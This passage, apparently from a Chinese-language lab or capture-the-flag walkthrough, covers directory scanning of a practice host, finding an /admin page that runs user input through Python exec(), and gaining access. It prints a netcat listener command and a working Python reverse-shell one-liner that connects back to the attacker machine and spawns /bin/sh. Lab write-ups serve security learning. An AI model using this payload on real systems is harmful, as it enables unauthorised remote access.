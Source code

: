 ### 6.目录扫描

对**目录路径**进行发现（**隐藏路径/页面**）

```
dirsearch -u http://10.0.2.5:5000
```

![image-20210918103746798](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918103746798.png)

结果显示得到**/admin**路径

### 7.发现远程代码执行漏洞页面

浏览器访问：http://10.0.2.5:5000/admin     页面如图

![image-20210918103832110](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918103832110.png)

该页面提示**“Code testing page” “Nothing was ran. Input some code to exec()”**

可联想到是否可以利用**Python**语言运行环境的**代码执行**触发**反弹shell**

#### 7.1监听4444端口

在攻击机Kali上**监听端口**4444

```
nc -nvlp 4444
```

![image-20211009143219519](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009143219519-20220219114805554.png)

#### 7.2执行Python脚本

在浏览器端的页面内执行Python脚本

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![image-20210918104035254](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918104035254.png)

#### 7.3反弹shell成功连接

打开kali监听端，可看到已经**成功连接**，并执行**ls**查看当前目录下**文件信息**，**id**查看当前**用户权限**

```
ls
```

```
id
```

![image-20210918104101495](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918104101495.png)
